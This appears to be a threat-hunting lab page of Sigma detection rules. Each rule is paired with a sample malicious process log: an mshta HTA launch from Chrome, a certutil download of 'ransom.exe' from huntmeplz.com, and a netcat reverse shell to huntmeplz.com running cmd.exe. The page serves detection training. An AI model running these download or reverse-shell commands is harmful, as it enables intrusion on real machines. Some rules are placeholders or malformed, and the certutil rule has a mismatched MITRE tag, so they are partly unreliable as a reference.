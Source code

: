 # Sigma hunt examples
1. HTA Payload: <!--StartFragment-->

Parent Image: chrome.exe

Image: mshta.exe

Command Line: C:\Windows\SysWOW64\mshta.exe C:\Users\victim\Downloads\update.hta

<!--EndFragment-->

```
title: #Title of your rule
id: b98d0db6-511d-45de-ad02-e82a98729620#Universally Unique Identifier (UUID) Generate one from https://www.uuidgenerator.net
status: testing #stage of your rule testing 
description: testing #Details about the detection intensions of the rule.
author: nishan #Who wrote the rule.
date: today #When was the rule written.
logsource:
  product: windows
  service: sysmon
detection:
    selection:
        EventID: '4688'
    selection_img:
        - Image|endswith: '\mshta.exe'
        - OriginalFileName: 'MSHTA.EXE'
    selection_parent:
        ParentImage|endswith:
            - 'chrome.exe'
    condition: all of selection_*
falsepositives:
    - Unknown
level: high

```

2. Certutil dwnload:
<!--StartFragment-->

Image: certutil.exe

Command Line: certutil -urlcache -split -f http://huntmeplz.com/ransom.exe ransom.exe

<!--EndFragment-->
```
title: test #Title of your rule
id: test #Universally Unique Identifier (UUID) Generate one from https://www.uuidgenerator.net
status: test #stage of your rule testing 
description: test #Details about the detection intensions of the rule.
author: #Who wrote the rule.
date: #When was the rule written.
modified: #When was it updated
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: '4688'
  selection_img:
    - Image|endswith: '\certutil.exe' #Search identifiers for the detection. Refer to the required fields provided in the task. 
  selection_cli:
    CommandLine|contains:
      - "-urlcache"
      - "-split"
      - '-f'
  condition: all of selection_* #Action to be taken. Can use condition operators such as OR, AND, NOT, 
fields: #List of associated fields that are important for the detection

falsepositives: #Any possible false positives that could trigger the rule.

level: medium #Severity level of the detection rule.
tags: #Associated TTPs from MITRE ATT&CK
  - attack.credential_access #MITRE Tactic
  - attack.t1110 #MITRE Technique
	
```
3. Netcat reverse shell:
<!--StartFragment-->

Image: nc.exe

Command Line: C:\Users\victim\AppData\Local\Temp\nc.exe huntmeplz.com 4444 -e cmd.exe

[MD5]() Hash: 523613A7B9DFA398CBD5EBD2DD0F4F38

<!--EndFragment-->
```
<!--StartFragment-->

title: sighunt\
id: 232c5562-f775-4ad4-a162-816c99b013a6\
status: rule testing\
description: Netcat Execution\
author: lordofficial\
date: 06/02/2023\
modified: 06/02/23\
logsource:\
product: windows\
service: process\_creation\
detection:\
selection1:\
EventID: 1\
\
Image|endswith: '\nc.exe'\
CommandLine|contains|all:\
\- ' -e '\
selection2:\
Hashes|contains: '523613A7B9DFA398CBD5EBD2DD0F4F38'\
\
condition: selection1 or selection2

<!--EndFragment-->

```
